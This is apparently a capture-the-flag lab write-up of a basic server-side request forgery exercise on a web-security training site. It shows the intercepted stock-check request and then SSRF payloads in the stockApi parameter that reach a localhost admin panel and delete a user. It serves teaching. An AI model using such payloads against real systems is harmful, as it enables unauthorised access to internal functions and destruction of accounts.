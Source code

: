 

---

- **Target** SSRF Lab - Basic SSRF against the local server
- **Author:** sonyahack1
- **Date:** 22.04.2025

---


## Intercepting a request for the stock check function

```html

POST /product/stock HTTP/2
Host: 0aa7006603f274d1827406f30014005b.web-security-academy.net
Cookie: session=tPPc42PtFUDiOHHe8jIx*********
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa7006603f274d1827406f30014005b.web-security-academy.net/product?productId=6
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0aa7006603f274d1827406f30014005b.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```bash
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D6%26storeId%3D1
```

> url decode the request body and use ```<@urlencode></@urlencode>```:

```bash

stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=6&storeId=1</@urlencode>

```

> i need to access the admin panel at **localhost** and delete the user Carlos.
> That is I replace the request from the server side to make a request where I need and get the result.
> i change the request to ```http://localhost/admin```:

```bash

stockApi=<@urlencode>http://localhost/admin</@urlencode>

```

> Result:

![admin_interface](./screenshots/admin_interface.png)

> i'm sending a request for delete user Carlos:

```bash

stockApi=<@urlencode>http://localhost/admin/delete?username=carlos</@urlencode>

```

> Result:

![solved_lab](./screenshots/solved_lab.png)


